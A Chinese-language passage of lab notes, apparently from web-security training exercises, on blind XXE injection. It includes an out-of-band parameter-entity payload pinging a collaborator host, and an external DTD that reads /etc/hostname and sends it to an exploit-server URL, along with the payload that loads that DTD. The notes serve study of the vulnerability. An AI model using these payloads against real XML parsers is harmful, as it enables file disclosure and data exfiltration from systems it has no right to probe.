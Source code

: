 可以验证存在盲 `XXE`漏洞

### 盲 XXE 带外 参数实体

```dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://075ppyh9w4pu697b2nnvnpatqkwbk48t.oastify.com" > %xxe; ]>
```

参数实体（Parameter Entity）是 XML 中的一种特殊实体，用于在 XML 文档的 DTD（文档类型定义）中定义可重用的内容

`%` 符号表示这是一个参数实体

`%xxe;` 是对上述定义的引用

![image-20250512153550110](./img/image-20250512153550110.png)

### 盲 XXE 加载外部dtd

编辑一个`DTD`，放在服务器

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://exploit-0a3a003803d23728807e98cd01da00ac.exploit-server.net/%file;'>">
%int;
%send;
```

payload:

利用参数实体，引入我们服务器上的`DTD`文件

```dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0a3a003803d23728807e98cd01da00ac.exploit-server.net/exploit.dtd" > %xxe; ]>
```
